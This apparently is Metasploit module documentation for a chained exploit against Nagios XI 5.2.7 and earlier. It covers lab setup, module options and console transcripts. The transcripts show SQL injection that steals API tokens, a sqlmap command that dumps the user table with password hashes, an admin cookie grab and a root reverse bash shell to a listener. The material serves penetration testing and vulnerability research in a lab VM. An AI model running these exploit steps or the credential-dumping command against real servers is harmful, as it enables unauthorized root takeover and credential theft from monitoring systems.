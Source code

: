 ## Intro

Nagios XI is the enterprise version of Nagios, the monitoring software we love
and hate.

> This module exploits an SQL injection, auth bypass, file upload, command
injection, and privilege escalation in Nagios XI <= 5.2.7 to pop a root shell.

## Setup

**Download the virtual appliance:**

I used the 64-bit OVA [here]. Remove the "-64" in the link to download the
32-bit OVA.

[here]: https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.2.7-64.ova

**Import the OVA:**

Just import it into VMware or VirtualBox. It should create a VM for you.

**Configure the software:**

When you start the VM, you will see ```Access Nagios XI at http://[redacted]```
on the login screen. Connect to the URL using your web browser and follow the
steps on the screen to configure the app.

Configuration is actually not required to exploit the app, but you should do it
anyway.

## Options

  **USER_ID**

  If you wish to exploit a particular ```USER_ID```, that can be specified here.  Default is 1, which is most likely the admin account.
  
  **API_TOKEN**
  
  The SQLi included only works for MySQL, which should work in most cases.  However, if you experience a different backend, you can enumerate the user
  table via sqlmap: ```sqlmap -u "http://[ip]/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=resolve&host=a&service=" -p service -T xi_users --dump```.
  Then you can set the ```USER_ID``` and ```API_TOKEN``` to skip those phases and move on to exploitation.  Default is empty.  See example below for more usage.

## Usage

### Typical Usage

Just set ```RHOST``` and fire off the module! It's pretty much painless.
```set VERBOSE true``` if you want to see details.

```
msf > use exploit/linux/http/nagios_xi_chained_rce 
msf exploit(nagios_xi_chained_rce) > set rhost [redacted]
rhost => [redacted]
msf exploit(nagios_xi_chained_rce) > set verbose true
verbose => true
msf exploit(nagios_xi_chained_rce) > run

[*] Started reverse TCP handler on [redacted]:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] API token: 3o2erpm0
[*] Getting admin cookie
[+] Admin cookie: nagiosxi=jcilcfptj7ogpvovgs3i5gilh7;
[+] CSRF token: 477abd7db8d06ade9c7fcd9e405fd911
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 1 opened ([redacted]:4444 -> [redacted]:60132) at 2016-07-01 00:12:20 -0500
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-xAmhUGRn.zip

3904334783
TwMSxKhKEaxUjlTSNYyeICVUuPSNkwoI
cKKdfdZxRpDduZCezKXOficrVyNeVggH
mRVdstQmfdtnFiYMjLgyfvRWXyQZPyUF
dDlRoqhBvqvwrhKYWumimyKxVHSbrkoE
wjCWBTgbsQuPemhiByeMpMEhdPooHEvw
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
uname -a
Linux localhost.localdomain 2.6.32-573.22.1.el6.x86_64 #1 SMP Wed Mar 23 03:35:39 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

### Emulating a different DB

#### First we'll attempt the exploit and see what happens.

```
msf exploit(nagios_xi_chained_rce) > show options

Module options (exploit/linux/http/nagios_xi_chained_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   API_TOKEN                   no        If an API token was already stolen, skip the SQLi
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.2.218    yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   USER_ID    1                yes       User ID in the database to target
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.117    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nagios XI <= 5.2.7


msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] 0 incidents resolved in Nagios IM

[-] Exploit aborted due to failure: unexpected-reply: API token not found! punt!
[*] Exploit completed, but no session was created.
```

#### Now lets try using sqlmap to enumerate the user table.

```
root@k:~# sqlmap -u "http://192.168.2.218/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=resolve&host=a&service=" -p service -T xi_users --dump
...snip...
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+
| user_id | name                 | email             | enabled | username    | password                         | backend_ticket                                                   |
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+
| 2       | admin2               | admin2@admin2.com | 1       | admin2      | c84258e9c39059a89ab77d846ddab909 | 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g |
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+

...snip...
```

#### Re-target
Now, we can set the ```USER_ID``` and ```API_TOKEN``` (backend_ticket)

```
msf exploit(nagios_xi_chained_rce) > set USER_ID 2
USER_ID => 2
msf exploit(nagios_xi_chained_rce) > set API_TOKEN 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
API_TOKEN => 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting admin cookie
[+] Admin cookie: nagiosxi=rjs4f9k4299v78hpgq3374q6j6;
[+] CSRF token: c53d1f591264a3ea771639a7782627f8
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.218:51032) at 2016-10-10 10:15:08 -0400
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-ZEaGkiTW.zip

1138255764
NXEqynCVIfLzvpjUkqOovFvuLgsUrtpo
CKorOSWlTQEkRoiwCiBqTgylyLQjuWxU
oIGZxLofAStLsgsMNaGnQzzMuBYpJUQs
fkUlWzVvhurgAATtxKhLSBFCxQaZqjtR
QajRDDToeigHGMFdUbaClxkLfJbxqBKv
whoami
root
```
